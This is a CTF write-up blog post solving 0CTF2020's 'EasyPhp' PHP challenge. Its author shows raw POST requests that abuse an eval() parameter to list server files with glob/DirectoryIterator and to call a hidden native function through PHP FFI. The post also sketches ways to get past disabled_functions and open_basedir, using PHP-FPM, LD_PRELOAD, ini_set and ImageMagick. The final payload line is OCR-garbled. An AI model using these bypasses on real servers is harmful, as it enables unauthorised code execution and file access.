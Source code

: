 ```yaml
---
layout: post
author: pwnk1dd13
---
```


* * *

Recently, I got opportunity to participate in **0CTF2020 Quals**. It was really a good CTF focused on Intermediate to Advanced participants. I was only able to solve only one PHP challenge during CTF named `EasyPhp`.

## Recon >
First things first, Always Recon the chall. So, on visiting the Provided URL [http://pwnable.org:19260/](http://pwnable.org:19260/) for the challenge, We get this piece of php code

```php
<?php
    if (isset($_GET['rh'])) {
        eval($_GET['rh']);
    } else {
        show_source(__FILE__);
    }
?>
```

Now, On looking at the source code, It immediately clicked that there is some sort of Code Injection using parameter `rh`. On trying commands like ``` system, exec, popen```, We didn't get anything executed.So, we must have to get our hands on the internals.

Now, we check the settings of back-end php application, For that we have to take a look at `phpinfo();`. On Using phpinfo(); as param in var rh,
[http://pwnable.org:19260/rh=phpinfo();](https://pwnk1dd13.github.io/assets/CTF/php-0ctf2020.html)

We get to know that dangerous functions that we tried to use before were disabled, Have a look at `disabled_functions` 
```
set_time_limit,ini_set,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,putenv,error_log,d
```
Hmm! So, We need to find some other ways. Doing a bit of research and reading writeups , we get know a lot about php exploits. Let's discuss various strategies we thought to exploit it.

## Strategy >

Following exploits came up : 

> PHP-FPM
>
> Bypass open_basedir()
>
> FFI
>
> glob + DirectoryIterator  : ~~This is not the exploit~~

Now, I'll explain a bit of above and unintended solutions that came during CTF in the later section `Conclusion`, Let's first discuss how I solved this challenge.

## Exploit >

We first glob + DirectoryIterator to literally scan the whole server, After doing this, we found interesting things in `/` Directory with this `POST`request:
```
POST /?rh=%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%67%6d%6c%5d%29%3b HTTP/1.1
Host: pwnable.org:19260
User-Agent: User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US;q=0.5,en;q=0.3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

gml=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};
```

```
bin dev etc flag.h flag.so home lib media mnt opt proc root run sbin srv start.sh sys tmp usr var
```
Cool!. So ,we find our targets `flag.h` and `flag,so`. `flag.so` is Dynamically Linked Shared Object and is most probably used by `flag.h` . So, we need to figure out the function called by `flag.h` .Now, to exploit further I used the evil functionality ``FFI`` which was enabled on server as per phpinfo(). For more information about this, visit Official [Php Docs](https://www.php.net/manual/en/class.ffi.php).

Now, We use `FFI` to call the method in `flag.so`.So, use `FFI` to load `flag.h`. Let's try with this `POST` request:
```
POST /?rh=%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%67%6d%6c%5d%29%3b HTTP/1.1
Host: pwnable.org:19260
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

gml=$ffi = FFI::load("/flag.h");echo 1;
```
We don't get a 500, indicates that loading through `FFI` works and it's successfully loaded. But we don't know what method there is, what the method name is, and can't read flag.h, this is the point where I got stuck. 

But reading more about FFI exploits, reveal that we can leak memory to know the method name and then call it to get the `flag`. I really not noted down, from where I got the script to leak method, Shame on me. But this guy also published writeup for this same challenge and described the process of leaking memory. He has also published writeups for other challenges. So, do checkout. Link to the [Writeup](https://www.4hou.com/posts/p7BQ).Now ,we have the method to be called `flag_fUn3t1on_fFi();`.

Now,just post this request to get the flag :
```
gml=$ffi = FFI : : load( " / flag. h" ) ; : : string($ffi->f1ag_fUn3t10n_fF1()));

```
We get our flag as response :
```
HTTP/I.1 200 0K
Server: nginx
Date: Mon, 29 Jun 2020 11:01 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.5
Content-Length: 42

string(27) "flag{FFi_1s_qu1T3_DANg10uS}"
```
Hurray! We got the flag `flag{FFi_1s_qu1T3_DANg10uS}`

## Conclusion >

The intended solutions of this challenge were :

> PHP-FPM
>
> FFI

We done this through FFI, but we can also do this through `php-Fastcgi/php-fpm`. You can read more about `PHP-FPM` [here](https://www.php.net/manual/en/install.fpm.php). The way to exploit via `fast-cgi` is to first find the sock file to connect .i.e `/var/run/php-fpm.sock` using `glob+DirectoryIterator`
. Now, You can forge `fastcgi` to bypass some security policies like `open_basedir` by using `PHP_VALUE` to change global php settings like `open_basedir`. In our case, primary target is to `open-basedir` so that we can read files in root folder. For Script and more info, [Visit](https://github.com/balsn/ctf_writeup/tree/master/20190323-0ctf_tctf2019quals#wallbreaker-easy). I have added file containing all the recon data [here](https://pwnk1dd13.github.io/assets/CTF/easyphp-0ctf2020.txt).

> Unintended solutions :
As the organizers had setup this challenge in a shared php environment. So, if someone modifies `open_basedir` restriction from `/var/www/html` to `/`. Then, It gets modified for all participants and hence, anybody can directly use `file_get_contents` to get `flag.so` where the flag is in plain-text.

## Learning >
Other Exploits :
 > `LD_PRELOAD` if `putenv` is not disabled, can be used to exploit the server.
 

 > `ini_set` if not disabled, can be used to change `open_basedir` and read contents from any directory, here, root `/` directory.

 >`ImageMagick` ,a php image library if used and enabled, can also be used to bypass `open_basedir` restriction.

## Feedback >

Thanks for reading and visiting my blog. Please don't mind by bad English or grammatical errors. Please do comments if You find it interesting or something went wrong!. I read all the comments.
Thanks Again! Have a good Day!


* * * 
